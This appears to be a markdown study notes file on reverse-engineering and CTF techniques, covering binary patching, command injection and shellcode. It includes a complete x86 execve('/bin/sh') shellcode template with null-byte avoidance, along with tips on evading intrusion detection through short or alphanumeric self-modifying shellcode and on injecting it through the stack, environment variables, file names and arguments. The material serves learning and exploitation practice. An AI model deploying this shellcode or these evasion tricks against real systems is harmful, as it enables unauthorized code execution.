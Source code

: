 # Common Techniques
These are many common techniques used in different reverse engineering problems.
## Binary Patching
- https://materials.rangeforce.com/tutorial/2020/04/12/Patching-Binaries/
- can be done easily in a decompiler like ida or ghidra
## Command Line Injection
  - changing system file paths
## Shellcode
  - execve(sh, argv, envp): executes the shell
    - sh: is the file
    - argv: multiple argument vector
    - envp: environment variable vector
  - vector in C is ended with NULL to tell how many items are in the vector
  -  don't `use mov eax, 0` don't want a null byte in the payload
  -  al is the lowest byte of eax
  -  envp will be the second element of argv
  -  if execve is blocked there are plenty of other system calls that can be used
  -  write concise shellcode because ids systems will block anything too long
     -  use the stack
     -  use `xor`
     -  use `cbw` and its variant
     -  staging shellcode in environment variables
     -  leverage context 
        -  what is already in registers
  - if you are only using alphanumeric chars
    - construct the real shellcode on the stack at runtime
      - this technique is known as self modifying shellcode
    - this will easily fool ids systems
    - http://phrack.org/issues/57/15.html#article
    - ex.
        ```
        movw $0, %ax   ; 0x66 0xb8 0x00, 0x00, 0x00 (not allowed)
        ->
        andw $0x454e, %ax 
        andw $0x3a31, %ax
        ```
  - it is possible to write exploits that are system blind
    - one technique is opening emulators for each architecture and brute force the byte combinations
  -  useful template for shellcode
``` 
#include <sys/syscall.h> 
#define STRING  "/bin/sh"
#define STRLEN  7
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+4)

.intel_syntax noprefix
.text

.globl main
.type  main, @function

main:
  jmp     calladdr

popladdr:
  pop    esi                    /* esi points to STRING */
  mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
  xor    eax,eax                /* get a 32-bit zero value */
  mov    [STRLEN + esi],al      /* null-terminate our string */
  mov    [ENVP + esi], eax      /* set up null envp */

  mov    al,SYS_execve          /* syscall number */
  mov    ebx,esi                /* arg 1: string pathname */
  lea    ecx,[ARGV + esi]       /* arg 2: argv */
  lea    edx,[ENVP + esi]       /* arg 3: envp */
  int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */

  xor    ebx,ebx                /* arg 1: 0 */
  mov    eax,ebx
  inc    eax                    /* exit(0) */
  /* mov+inc to avoid null byte */
  int    0x80                   /* invoke syscall */

calladdr:
  call    popladdr
  .string STRING 
  ```
  - can inject shellcode through stack, env variables, file names, and arguments

## Security Protections
- nx being disabled means that memory spaces such as the stack are executable